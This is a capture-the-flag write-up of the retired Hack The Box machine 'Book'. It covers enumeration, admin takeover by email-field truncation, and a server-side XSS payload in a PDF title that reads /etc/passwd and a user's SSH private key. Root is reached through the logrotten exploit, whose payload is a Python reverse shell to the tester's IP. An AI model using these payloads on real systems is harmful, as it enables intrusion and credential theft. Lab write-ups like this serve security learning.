









_[<-- Back](https://flast101.github.io/HTB-writeups)_

# Book
## 1- Overview

[](https://www.hackthebox.eu/home/machines/profile/230)   

Retire: 11 July 2020   
Writeup: 11 July 2020


### Summary

**2- Enumeration**    
2.1- Nmap Scan     
2.2- Web Site Discovery   

**3- Exploitation**    
3.1- Exploitating Registering Page   
3.2- Web Site Vulnerability   
3.3- Getting RCE   

**4- Privilege Escalation**    
4.1- Post-Compromise Enumeration     
4.2- Deeper Investigation    
4.3- Post-Compromise Exploitation    


* * *
## 2- Enumeration
### 2.1- Nmap Scan

First things first, we begin with a **`nmap`** scan:
~~~
root@kali:~# nmap --reason -Pn -sV -sC --version-all 10.10.10.176

Nmap scan report for 10.10.10.176
Host is up, received user-set (0.027s latency).
Scanned at 2020-06-01 10:46:06 CEST for 13s
Not shown: 998 closed ports
Reason: 998 resets

PORT   STATE SERVICE REASON         VERSION

22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f7:fc:57:99:f6:82:e0:03:d6:03:bc:09:43:01:55:b7 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDMrLSBfMJGYbweKg7qPaY0uw9OBPR3dlM6GiVPDVca05vEsQKJ47YXEIZoMCIg/QvJdP6RsmeQfcFbszP/stxoVfWPLBS6csfdl4rz8MjNuRAcUQjcYhPEejogNjRZKf695ggwUybHATBXNLBpCMNrrrCqtKVvgzljdEK9rnAlOVztI8bEaLbQV87lmQJvt38bHdt+UsO+HIJwrwrUkRzXeja1k/DJ4BfWgmTNUJyUWo8XiTQrpBe7JkeQ4DwJ7HZMtpnhHDv/BIwi6Tk994tDpbTGvmbnLivvT+j22KruHE6ZvEhbts+2907haztuZdgiNG5dFPH7jKapIrZWtxTB
|   256 a3:e5:d1:74:c4:8a:e8:c8:52:c7:17:83:4a:54:31:bd (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBNKAm6pa94qHHk0DuSIarpsJaCk2vUfZkgWkrXPeIorMjT/DyTCfsM2ViRnU9YSnrVj/c3OQ1vyW8eMxiRDoOB8=
|   256 e3:62:68:72:e2:c0:ae:46:67:3d:cb:46:bf:69:b9:6a (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAICk6vCR5eZZvVb6fwpX7k054lgERxpbaEC8jyGKxJ4Xm

80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: LIBRARY - Read | Learn | Have Fun
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Jun  1 10:46:19 2020 -- 1 IP address (1 host up) scanned in 13.65 seconds
~~~

There are only 2 ports open, 22 with SSH and 80 with HTTP. There is an Apache web server v. 2.4.29 installed and the OS must be an Ubuntu.

Let's have a look on the web site hosted there.

### 2.2- Web Site Discovery

Before visiting the web site, we run Burp Suite in order to register the web traffic.

Going to the url http://10.10.10.176, we arrive on the following sign in/sign up page.



If we run **`gobuster`**, we can see there is an admin page:




We can try to log in with admin-like credentials in one of those 2 pages, but it doesn't work. Let's try to register a user and then log in.

We register a user and record web queries and responses on Burp.
After having recorded a user, we log in and access the following page:





Looking around, we notice :

- On the “Books” page, PDF documents are downloadable.
- On the “Collections” page, we can upload files, but can not access them afterward.
- The contact page reveal that there is an account “admin@book.htb”.


On Burp, we can see that the registering form fields are sanitized with the following code:
```
<script>
  if (document.location.search.match(/type=embed/gi)) {
    window.parent.postMessage("resize", "*");
  }
function validateForm() {
  var x = document.forms["myForm"]["name"].value;
  var y = document.forms["myForm"]["email"].value;
  if (x == "") {
    alert("Please fill name field. Should not be more than 10 characters");
    return false;
  }
  if (y == "") {
    alert("Please fill email field. Should not be more than 20 characters");
    return false;
  }
}
</script>
```

It is interesting to see that the name and email fields are limited in size.

* * *
## 3- Exploitation
### 3.1- Exploitating Registering Page

As we know from the contact page that there is an account “admin@book.htb”, we can guess it is an admin account and the first thing we want to try is registering this same account again, but with new creds that we choose. Wrong numbre, it fails: 


Now, we can try again but this time we add space char to the e-mail and try to exploit the size limitation.   

The email is limited to 20 characters. We may try to register an account beginning with “admin@book.htb”, then adding spaces until the 20th caharcater, and finally one more character, eg. "1".   
Doing so, we may obtain another admin account that the site will consider as being the admin account “admin@book.htb” without flagging it during the registration as alreading existing.    
Let's give it a try.   

If we do it directly in the form on the web site, it refuses this e-mail address and we can not validate the account. Actually, space chars are not accepted here, but we can try to run the query from Burp.   
From Burp, we create an account “admin” with the email address **“admin@book.htb      1”**. As the 1 is the 21<sup>st</sup> character, it is not taken into account and our account is validated. 





Now, let's try to login to the admin panel on http://10.10.10.176/admin/index.php. It may not work the first time, but if we register once again, it works !


We have our foothold. What can we do from there ?

### 3.2- Web Site Vulnerability

First thing, if we go to the **"Collections"** page, we find two **"PDF"** buttons.


Clicking on the **"Collections"** PDF button allow to download and open a PDf document that includes link to each document published on the site.

In another browser windows, let's try to log in on the standard page and upload any PDF file to see if it is correctly display in the documents list.   
We first try to see what it does with a sample.pdf first. We upload the file and we find it here :


If I click on the link, it is executed here :




Very nice ! We found a place where we can have some code executed on the server. 

### 3.3- Getting RCE

Of course, our goal now is to make the server execute a choosen code that will allow us to connect to it (or make it connect back to us) and get a shell.

f we try with a php file, it won't do anything. We must try to find a way to execute code in a pdf file.

There is a known abuse of dynamically generated PDF by causing a server side XSS. Google "file read XSS pdf” gives great results.    
We will try to use this one :
Server Side XSS (Dynamic PDF) : https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting/server-side-xss-dynamic-pdf

We have to make several tries and modify the payload as it is here:   
Local File Read Access through XSS in Dynamically Generated Email Template PDF:
https://www.esecurify.com/local-file-read-access-through-xss-in-dynamically-generated-email-template-pdf/

It works with the following script, putting it directly in the title field, while uploading any pdf file (we are using sample.pdf, a simple one page pdf file):
~~~
<script>x=new XMLHttpRequest;x.onload=function(){document.write(this.responseText)};x.open("GET","file:///etc/passwd");x.send();</script>
~~~


We obtain the content of ***/etc/passwd***:

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-
data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats
Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin systemd-
network:x:100:102:systemd Network
Management,,,:/run/systemd/netif:/usr/sbin/nologin systemd-
resolve:x:101:103:systemd
Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
reader:x:1000:1000:reader:/home/reader:/bin/bash
mysql:x:111:114:MySQL Server,,,:/nonexistent:/bin/false
```

As we know the users, let's try to grab a private ssh key for the user “reader” by trying to read the file ***/home/reader/.ssh/id_rsa*** which is usully the file containing the ssh provate key:
```
<script>x=new XMLHttpRequest;x.onload=function(){document.write(this.responseText)};x.open("GET","file:///home/reader/.ssh/id_rsa");x.send();</script>
```





Very good, we are almost done. However, using it as is does not work:    

```
root@kali:~/.ssh# ssh -i book_rsa reader@10.10.10.176
load pubkey "book_rsa": invalid format
Load key "book_rsa": invalid format
reader@10.10.10.176's password:
``` 

The tool **`pdfminer.six`** found at https://github.com/pdfminer/pdfminer.six allows to format the key correctly:
~~~
root@kali:~# python3 /usr/local/bin/pdf2txt.py rsakey.pdf > book_rsa
~~~

However, we have to edit the file and change tab character and it finally works.

~~~
root@kali:~/.ssh# ssh -i book_rsa reader@10.10.10.176
Welcome to Ubuntu 18.04.2 LTS (GNU/Linux 5.4.1-050401-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sun Jun  7 19:10:12 UTC 2020

  System load:  0.0                Processes:            145
  Usage of /:   26.6% of 19.56GB   Users logged in:      0
  Memory usage: 22%                IP address for ens33: 10.10.10.176
  Swap usage:   0%


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

114 packages can be updated.
0 updates are security updates.

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Sun Jun  7 19:09:30 2020 from 10.10.14.18
reader@book:~$ id
uid=1000(reader) gid=1000(reader) groups=1000(reader)
~~~




* * *

## 4- Privilege Escalation

### 4.1- Post-Compromise Enumeration

Before doing anything else, let's have a looke around:

~~~
reader@book:~$ pwd
/home/reader

reader@book:~$ ll
total 80
drwxr-xr-x 7 reader reader  4096 Jan 29 13:05 ./
drwxr-xr-x 3 root   root    4096 Nov 19  2019 ../
drwxr-xr-x 2 reader reader  4096 Jan 29 13:05 backups/
lrwxrwxrwx 1 reader reader     9 Nov 29  2019 .bash_history -> /dev/null
-rw-r--r-- 1 reader reader   220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 reader reader  3771 Apr  4  2018 .bashrc
drwx------ 2 reader reader  4096 Nov 19  2019 .cache/
drwx------ 3 reader reader  4096 Nov 19  2019 .gnupg/
drwxrwxr-x 3 reader reader  4096 Nov 20  2019 .local/
-rwxrwxr-x 1 reader reader 34316 Jan 29 08:28 lse.sh*
-rw-r--r-- 1 reader reader   807 Apr  4  2018 .profile
drwx------ 2 reader reader  4096 Nov 28  2019 .ssh/
-r-------- 1 reader reader    33 Nov 29  2019 user.txt

reader@book:~$ ll backups/
total 12
drwxr-xr-x 2 reader reader 4096 Jan 29 13:05 ./
drwxr-xr-x 7 reader reader 4096 Jan 29 13:05 ../
-rw-r--r-- 1 reader reader    0 Jan 29 13:05 access.log
-rw-r--r-- 1 reader reader   91 Jan 29 13:05 access.log.1

reader@book:~$ cat backups/access.log.1
192.168.0.104 - - [29/Jun/2019:14:39:55 +0000] "GET /robbie03 HTTP/1.1" 404 446 "-" "curl"
~~~

***"lse.sh"*** is in the home directory and **LSE** stands for the tool called **Linux Smart Enumeration**. We can find more information about this enumeration tool and its usage here: https://github.com/diego-treitos/linux-smart-enumeration   

We can use it to gather more information about the environment and find a way to escalate privileges: `reader@book:~$ ./lse.sh -l2 -i`

In the systemd timer seciton, we find this:
~~~
NEXT                         LEFT          LAST                         PASSED       UNIT                         ACTIVATES
Sun 2020-06-07 19:30:44 UTC  27s left      Sun 2020-06-07 19:29:44 UTC  32s ago      book.timer                   book.service
Sun 2020-06-07 19:39:00 UTC  8min left     Sun 2020-06-07 19:09:01 UTC  21min ago    phpsessionclean.timer        phpsessionclean.service
Sun 2020-06-07 23:44:55 UTC  4h 14min left Sun 2020-06-07 15:39:13 UTC  3h 51min ago apt-daily.timer              apt-daily.service
Mon 2020-06-08 00:00:00 UTC  4h 29min left Sun 2020-06-07 15:39:13 UTC  3h 51min ago fstrim.timer                 fstrim.service
Mon 2020-06-08 04:51:35 UTC  9h left       Sun 2020-06-07 15:58:18 UTC  3h 31min ago motd-news.timer              motd-news.service
Mon 2020-06-08 06:44:49 UTC  11h left      Sun 2020-06-07 15:39:13 UTC  3h 51min ago apt-daily-upgrade.timer      apt-daily-upgrade.service
Mon 2020-06-08 15:53:52 UTC  20h left      Sun 2020-06-07 15:53:52 UTC  3h 36min ago systemd-tmpfiles-clean.timer systemd-tmpfiles-clean.service
n/a                          n/a           n/a                          n/a          snapd.snap-repair.timer      snapd.snap-repair.service
n/a                          n/a           n/a                          n/a          ureadahead-stop.timer        ureadahead-stop.service

9 timers listed.
~~~

We can find more information about timers and services in Linux here: https://www.linux.com/topic/desktop/setting-timer-systemd-linux/

It seems that the book.timer unit is activated by book.service very often.

### 4.2- Deeper Investigation

Let's have a closer look to this file ***/etc/systemd/system/book.service***   

~~~
reader@book:~$ cat /etc/systemd/system/book.service

[Unit]
Description=Backup of my apache website logs

[Service]
Type=simple
ExecStart="/root/log.sh"

[Install]
WantedBy=multi-user.target
reader@book:~$ cat /etc/systemd/system/book.timer
[Unit]
Description=Execute backup every minute

[Timer]
OnBootSec=1min
Unit=book.service
OnUnitActiveSec=1min

[Install]
WantedBy=multi-user.target
~~~

It is clear now that it is activated avery minute and it executes the program bash script ***/root/log.sh***. 

Although we can not read the content of the script because it is in root directory, we may gather information about what it is actually doing by looking closely at processes executed on the target.

**`pspy`** is very good at this. It is a command line tool designed to snoop on processes without need for root permissions. It allows you to see commands run by other users, cron jobs, etc. as they execute. We can download it here: https://github.com/DominicBreuker/pspy

We set up a web server on our Kali machine:
~~~
root@kali:~# python3 -m http.server 80
~~~

And download pspy from the target:
~~~
reader@book:~$ wget http://10.10.14.18/pspy
~~~

If we use pspy to monitor the operation of the target machine, we notice:

~~~
2020/06/07 19:54:26 CMD: UID=0    PID=47635  | /usr/sbin/logrotate -f /root/log.cfg 
2020/06/07 19:54:26 CMD: UID=0    PID=47634  | /bin/sh /root/log.sh 
2020/06/07 19:54:26 CMD: UID=0    PID=47636  | sleep 5 
2020/06/07 19:54:31 CMD: UID=0    PID=47638  | /usr/sbin/logrotate -f /root/log.cfg 
2020/06/07 19:54:31 CMD: UID=0    PID=47637  | /bin/sh /root/log.sh 
2020/06/07 19:54:31 CMD: UID=0    PID=47639  | sleep 5 
~~~

We can assume that log.sh is actually doing : `/usr/sbin/logrotate -f /root/log.cfg`

### 4.3- Post-Compromise Exploitation

If we have a look at logrotate on EDB, we can find an **exploit for logrotate version 3.8.6, 3.11.0 and 3.15.0, with Ubuntu 18.04.1.**

Checking the target version of logrotate:
~~~
reader@book:~$ logrotate --version
logrotate 3.11.0
~~~


The exploit  on EDB is:   
**logrotten 3.15.1 - Privilege Escalation**: https://www.exploit-db.com/exploits/47466

It requests the following conditions for privilege escalation :
  - Logrotate has to be executed as root
  - The logpath needs to be in control of the attacker
  - Any option that creates files is set in the logrotate configuration

And we have to look at the logrotate config file to find if it is "create" or "compress" option that is set. 

~~~
reader@book:~$ find / -name "logrotate.conf" 2>/dev/null 
/snap/core/8268/etc/logrotate.conf
/snap/core/8592/etc/logrotate.conf
/var/lib/dpkg/info/logrotate.conffiles
/etc/logrotate.conf
/usr/share/doc/rsync/examples/logrotate.conf.rsync
/usr/share/sosreport/sos/plugins/__pycache__/logrotate.cpython-36.pyc
/usr/share/man/man5/logrotate.conf.5.gz

reader@book:~$ cat /etc/logrotate.conf
# see "man logrotate" for details
# rotate log files weekly
weekly

# use the syslog group by default, since this is the owning group
# of /var/log/syslog.
su root syslog

# keep 4 weeks worth of backlogs
rotate 4

# create new (empty) log files after rotating old ones
create

# uncomment this if you want your log files compressed
#compress

# packages drop log rotation information into this directory
include /etc/logrotate.d

# no packages own wtmp, or btmp -- we'll rotate them here
/var/log/wtmp {
    missingok
    monthly
    create 0664 root utmp
    rotate 1
}

/var/log/btmp {
    missingok
    monthly
    create 0660 root utmp
    rotate 1
}

# system-specific logs may be configured here
~~~

Actually, we already knew that it is “create” because we saw the files in our home directory, but it is better to check.

Now, we have to prepare a payload file. We edit a payload file `reader@book:~$ nano payload` and write the follwing:

~~~
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.18",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
~~~

Of course we save it and make it executable with `reader@book:~$ chmod +x payload`.


Now, we compile the exploit, download it on the target, then run it:
~~~
reader@book:~$ ./logrotten -p ./payload /home/reader/backups/access.log
Waiting for rotating /home/reader/backups/access.log...
Renamed /home/reader/backups with /home/reader/backups2 and created symlink to /etc/bash_completion.d
Waiting 1 seconds before writing payload...
Done!
~~~

At the same time, we log into the target machine with another terminal, generate and write random data to the polling log:
~~~
reader@book:~$ head -c 15M < /dev/urandom > backups/access.log
~~~

On our Kali machine we set up a listener with `root@kali:~# nc -nlvp 4444`

It takes several trials before it works and the shell is unstable but it finally works.




We can also attempt to cat the shadow file to further decrypt root creds:




Happy Hacking ! 

[](https://www.hackthebox.eu/profile/249498)


_[<-- Back](https://flast101.github.io/HTB-writeups)_
